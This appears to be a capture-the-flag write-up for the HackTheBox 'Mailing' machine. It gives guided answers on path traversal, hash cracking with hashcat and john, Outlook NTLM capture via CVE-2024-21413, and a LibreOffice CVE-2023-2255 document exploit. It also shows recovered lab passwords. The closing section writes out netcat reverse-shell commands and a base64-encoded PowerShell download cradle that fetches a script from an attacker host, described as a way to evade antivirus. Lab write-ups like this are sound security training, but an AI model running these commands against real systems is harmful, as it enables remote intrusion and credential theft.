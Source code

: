 ## Guided:
**Q:** Which mail server is running on the server?<br>
**A:** hMailServer<br>
> (`nmap -sV <IP>`, will indicate the smtp service)

**Q:** What is the relative path on the website that is vulnerable to a path traversal exploit?<br>
**A:** /download.php <br>                   
> (This Why -> `http://mailing.htb/download.php?file=instructions.pdf`)

**Q:** What is the complete path to the configuration file on the hMailServer?<br>
**A:** C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini<br>
> Quick search on google: Where is the hMailServer.ini file located?
> hMailServer. ini is by default located in `C:\Program Files\hMailServer\Bin`<br>    Had to add (x86) since it's 32bit program

**Q:** What is the password for the Administrator user on the mail server?      (extracted via Burp's Repeater)
**A:** homenetworkingadministrator
1. `hash-identifier <hash>` -> (MD5) 
2. `hashcat -m 0 -a 0 hash.txt ~/Downloads/rockyou.txt`<br> |or|  `john --format=raw-md5 admin.txt --wordlist=~/Downloads/rockyou.txt`
> optional: [crackstation](https://crackstation.net/)

**Q:** What is the 2024 CVE ID for a vulnerability Windows Mail client that can lead to the leak of the users credentials?<br>
**A:** CVE-2024-21413 <br>
> A quick search on google for hMailServer exploit revealed this:<br>
> [Exploit](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git)

**Q:** What is the password for the maya user on Mailing?<br>
**A:** m4y4ngs4ri <br>
> I've tried the exploit but didn't work (any of them and alot of people came with the same problem) <br>
> `sudo responder -I eth0` |or| `impacket-smbserver smbFolder $(pwd) -smb2support` <br>
> `python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password 'homenetworkingadministrator' --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\<IP>\smbFolder\test.txt" --subject Test` <br>
> had to copy the NTLMv2 hash from some guide online and crack it myself with -->  `hashcat -m 5600 -a 0 <NTLMv2 hash> ~/Downloads/rockyou.txt`

**Q:** What is the version of LibreOffice present on the server?<br>
**A:** 7.4.0.0.1 <br>
> Via PS: `(Get-Command "$env:ProgramFiles\LibreOffice\program\soffice.exe").FileVersionInfo | Select-Object ProductVersion`<br>

**Q:** What is the 2023 CVE-ID for a vulnerability in this version of LibreOffice?<br>
**A:** CVE-2023-2255 <br>
> This vulnerability involves improper access <br>
> control in LibreOffice's editor components,<br> allowing an attacker to create a document that loads <br>
> external links without prompting the user.

**Q:** Submit the flag located on the localadmin user's desktop.<br>
**A:** e59e5729dbc1c2b3cd70cf04b2160f2a<br>
> `C:\Users\localadmin\Desktop>type root.txt`<br>
> `type root.txt`

## The exploit:
1. `python3 CVE-2023-2255.py --cmd "cmd.exe /c C:\ProgramData\nc.exe -e cmd.exe YOUR_IP 1337" --output exploit.odt` <br>
2. connect via evil-winrm --> upload to C:\programdata a 'nc.exe'
3. then needed a directory that the user may access it, so it was "C:\Important Documents" --> upload the exploit.odt
4. open netcat listener and wait



Rev-shell with Ippsec method to evade anti-virus via powershell:
                  echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8585/shell.ps1')$" > cradle
convert to 16bit:
                  cat cradle | iconv -t utf-16le | base64 -w 0

Exploit:
  python3 CVE-2023-2255.py --cmd 'cmd /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQA6ADgANQA4ADUALwBzAGgAZQBsAGwALgBwAHMAMQAnACkAJAAKAA==' --output exploit.odt


